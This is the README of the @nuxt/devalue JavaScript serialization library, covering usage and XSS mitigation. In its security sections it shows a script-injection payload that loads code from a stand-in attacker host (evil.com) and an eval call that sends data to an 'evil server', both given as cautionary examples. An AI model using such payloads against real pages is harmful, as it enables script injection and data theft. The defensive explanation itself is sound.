 # @nuxt/devalue

[![npm version][npm-version-src]][npm-version-href]
[![npm downloads][npm-downloads-src]][npm-downloads-href]
[![codecov][codecov-src]][codecov-href]
[![package phobia][package-phobia-src]][package-phobia-href]
[![bundle phobia][bundle-phobia-src]][bundle-phobia-href]

> Forked from [devalue](https://github.com/Rich-Harris/devalue) to log errors on non-serializable properties rather than throwing `Error`.

Like `JSON.stringify`, but handles

* cyclical references (`obj.self = obj`)
* repeated references (`[value, value]`)
* `undefined`, `Infinity`, `NaN`, `-0`
* regular expressions
* dates
* `Map` and `Set`
* `.toJSON()` method for non-POJOs

Try it out on [runkit.com](https://npm.runkit.com/@nuxt/devalue).

## Goals:

* Performance
* Security (see [XSS mitigation](#xss-mitigation))
* Compact output


## Non-goals:

* Human-readable output
* Stringifying functions or arbritary non-POJOs


## Usage

```js
import devalue from '@nuxt/devalue';

let obj = { a: 1, b: 2 };
obj.c = 3;

devalue(obj); // '{a:1,b:2,c:3}'

obj.self = obj;
devalue(obj); // '(function(a){a.a=1;a.b=2;a.c=3;a.self=a;return a}({}))'
```

If `devalue` encounters a function or a non-POJO, it will throw an error.


## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"</script><script src='https://evil.com/mwahaha.js'>"};
</script>
```

Using `devalue`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${devalue(state)};
</script>`;
```

```html
<script>
  var preloaded = {userinput:"\\u003C\\u002Fscript\\u003E\\u003Cscript src=\'https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js\'\\u003E"};
</script>
```

This, along with the fact that `devalue` bails on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `devalue` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0,eval)('(' + str + ')');
```


## Other security considerations

While `devalue` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `devalue` would have access to your system.

When using `eval`, ensure that you call it *indirectly* so that the evaluated code doesn't have access to the surrounding scope:

```js
{
  const sensitiveData = 'Setec Astronomy';
  eval('sendToEvilServer(sensitiveData)'); // pwned :(
  (0,eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.


## See also

* [lave](https://github.com/jed/lave) by Jed Schmidt
* [arson](https://github.com/benjamn/arson) by Ben Newman
* [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
* [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo


## License

[MIT](LICENSE)

<!-- Refs -->
[npm-version-src]: https://flat.badgen.net/npm/v/@nuxt/devalue/latest
[npm-version-href]: https://www.npmjs.com/package/@nuxt/devalue

[npm-downloads-src]: https://flat.badgen.net/npm/dm/@nuxt/devalue
[npm-downloads-href]: https://www.npmjs.com/package/@nuxt/devalue

[circleci-src]: https://flat.badgen.net/circleci/github/nuxt-contrib/devalue
[circleci-href]: https://circleci.com/gh/nuxt-contrib/devalue

[package-phobia-src]: https://flat.badgen.net/packagephobia/install/@nuxt/devalue
[package-phobia-href]: https://packagephobia.now.sh/result?p=@nuxt/devalue

[bundle-phobia-src]: https://flat.badgen.net/bundlephobia/minzip/@nuxt/devalue
[bundle-phobia-href]: https://bundlephobia.com/result?p=@nuxt/devalue

[codecov-src]: https://flat.badgen.net/codecov/c/github/nuxt-contrib/devalue/master
[codecov-href]: https://codecov.io/gh/nuxt-contrib/devalue
